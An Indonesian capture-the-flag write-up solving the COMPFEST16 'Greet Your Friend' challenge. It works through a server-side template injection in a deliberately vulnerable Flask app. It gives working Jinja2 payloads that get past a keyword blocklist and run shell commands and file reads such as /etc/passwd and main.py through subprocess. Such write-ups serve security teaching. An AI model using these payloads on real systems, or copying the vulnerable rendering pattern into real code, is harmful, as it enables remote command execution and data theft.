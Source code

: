 #CTF #COMPFESTHackingClass #COMPFEST16 #WebExploitation #SSTI #WriteUp  

>**Flag:** `COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}`

![compfest16-hackingclass-greetyourfriend11.png](./img/compfest16-hackingclass-greetyourfriend11.png)
### Write Up:
Tampilan awal website ketika dibuka.
![compfest16-hackingclass-greetyourfriend00.png](./img/compfest16-hackingclass-greetyourfriend00.png)
Jika kita isi input, maka akan berisi kalimat sambutan dan hasil input yang di generate secara random pada variabel `GREETINGS` pada source code yang diberikan.
![compfest16-hackingclass-greetyourfriend01.png](./img/compfest16-hackingclass-greetyourfriend01.png)

Berikut adalah source code yang diberikan pada soal.
```python
from flask import Flask, render_template, request, render_template_string
import random

app = Flask(__name__)
@app.route("/", methods=["GET"])

def home():
    if request.method == "GET":
        GREETINGS = ["Hope you have a wonderful day!",
                     "Wishing you a fantastic day ahead!",
                     "May your day be filled with joy and positivity!",
                     "Sending you positive energy for a great day!"
                     "COMPFEST16{placeholder}"]

        if request.args.get('name') :
            if all(c not in request.args.get('name') for c in ['%', 'class', 'mro', 'attr', 'self', 'read']):
                result = render_template_string(f"Hello {request.args.get('name')}! {GREETINGS[random.randint(0, len(GREETINGS)-2)]}")
                return render_template("index.html", **{"data": result})
            else:
                return render_template("index.html", **{"data": "nu uh >:("})
        return render_template("index.html")

if __name__ == "__main__":
	app.run("0.0.0.0", port=8080, debug=True)
```

Informasi yang bisa kita dapatkan dari source code diatas adalah input yang kita masukkan tidak boleh mengandung karakter `%`, `class`, `mro`, `attr`, `self`, `read`. Hal ini sebagai bentuk pencegahan dari kerentanan website berupa [[-Server Side Template Injection (SSTI)]].

Hal pertama yang harus kita identifikasi adalah jenis kerentanan SSTI apa yang ada pada website ini yang bisa dilihat dari gambar berikut. Setiap hasil dari operasi yang benar akan mengikuti garis hijau dan jika hasil operasi salah akan mengikuti garis merah.

![ssticheck.png](./img/ssticheck.png)

Mulai cek dari `{7 * 7}`

![compfest16-hackingclass-greetyourfriend02.png](./img/compfest16-hackingclass-greetyourfriend02.png)

Hasil yang keluar bukanlah `49` melainkan `{7 * 7}`, jadi kita bisa lanjutkan dengan `{{7 * 7}}`.

![compfest16-hackingclass-greetyourfriend03.png](./img/compfest16-hackingclass-greetyourfriend03.png)

Hasil yang keluar adalah `49`, kita bisa melanjutkannya dengan mengecek `{{7*'7'}}`

![compfest16-hackingclass-greetyourfriend04.png](./img/compfest16-hackingclass-greetyourfriend04.png)

Dengan ini kita mengidentifikasi jenis dari SSTI ini antara Jinja2 dan Twig.

Cari payload yang mendukung untuk mendapatkan flag. Disini saya menggunakan [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Kita akan berusaha untuk dapat mengakses directory dari server untuk menemukan flag.

Kita akan menggunakan `__globals__` untuk mengakses dictionary dari variabel global dan `__builtins__` untuk dapat menggunakan fungsi-fungsi built-in python.

Awalnya saya mencoba untuk mengubah karakter yang tidak boleh digunakan menjadi hex dan memasukkanya ke dalam payload.
```
{{0x730x650x6c0x66.__init__.__globals__.__builtins__.__import__('os').popen('id').0x720x650x610x64()}}
```
yang mempresentasikan
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Tetapi, malah mendapati error. Namun, dari sini kita bisa mendapatkan jawaban bila jenis SSTI nya adalah Jinja2.
![compfest16-hackingclass-greetyourfriend05.png](./img/compfest16-hackingclass-greetyourfriend05.png)

Setelah membaca payload lebih lanjut di Payloads All The Things, saya menemukan payload yang hampir tidak mengandung karakter yang dilarang pada website diatas.
```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```
Disini masih terdapat karakter `read` yang dilarang pada website. Dengan memanfaatkan [ChatGPT](https://chat.openai.com) untuk memberikan alternatif dari payload diatas untuk mengakses directory server.

Berikut adalah percobaan pertama untuk mengetes apakah payload dapat berjalan atau error.
```
{{get_flashed_messages.__globals__.__builtins__.get('id',' ')}}
```

![compfest16-hackingclass-greetyourfriend06.png](./img/compfest16-hackingclass-greetyourfriend06.png)
Mantap, payload tidak error dan mengeluarkan output `&lt;built-in function id&gt;` atau `<built-in function id>`. Selanjutnya kita hanya perlu mencari command yang dapat menampilkan isi directory. Dalam hal ini, saya masih memanfaatkan ChatGPT untuk memberikan alternatif.

Percobaan pertama adalah berikut:
```
{{get_flashed_messages.__globals__.__builtins__.exec('ls')}}
```
Tetapi gagal atau error. 

Pada percobaan kedua, saya berhasil menampilkan isi dari directory dengan menambahkan `__import__()` dan `listdir()`
```
{{get_flashed_messages.__globals__.__builtins__.__import__('os').listdir('/')}}
```
![compfest16-hackingclass-greetyourfriend07.png](./img/compfest16-hackingclass-greetyourfriend07.png)
Karena `listdir()` hanya menampilkan isi dari directory dan tidak bisa membuka suatu file, saya mencari potongan payload baru.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('ls',shell=True)}}
```
Menurut Chat GPT,
- `get_flashed_messages` adalah sebuah fungsi dalam Flask yang digunakan untuk mengambil pesan yang disimpan sementara (flashed messages). Dalam konteks ini, fungsi ini digunakan untuk mengakses atribut `__globals__` dari fungsi tersebut.\
- `__globals__` adalah atribut dari fungsi Python yang mengembalikan kamus (dictionary) dari semua variabel global yang tersedia.
- `__builtins__` berisi semua fungsi bawaan (built-in) dari Python seperti print, len, dll.
- `__import__('subprocess')` akan mengimpor modul `subprocess`, yang digunakan untuk menjalankan perintah shell di sistem operasi. Modul inilah yang menjadi kunci kita pada kali ini.
- `subprocess.check_output('<cmd>', shell=True)` adalah sebuah metode dalam modul `subprocess` yang menjalankan perintah shell yang diberikan dan mengembalikannya menjadi string dan `shell=True` memungkinkan perintah ini dijalankan dalam shell, yang memungkinkan penggunaan perintah.

![compfest16-hackingclass-greetyourfriend08.png](./img/compfest16-hackingclass-greetyourfriend08.png)
Setelah mencoba membuka dan mencari ke `etc/passwd`, `/` dan `/home`. Saya teringat dengan salah satu isi dari variabel `GREETINGS` pada source code yang telah diberikan mengandung string berikut `"COMPFEST16{placeholder}"`. Jadi kita akan mencoba mengecek `main.py`.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('cat main.py',shell=True)}}
```
![compfest16-hackingclass-greetyourfriend09.png](./img/compfest16-hackingclass-greetyourfriend09.png)

FLAG sudah ditemukan, untuk mempermudah membaca kita bisa menggunakan `cat main.py | grep "COMPFEST16"`.
![compfest16-hackingclass-greetyourfriend10.png](./img/compfest16-hackingclass-greetyourfriend10.png)

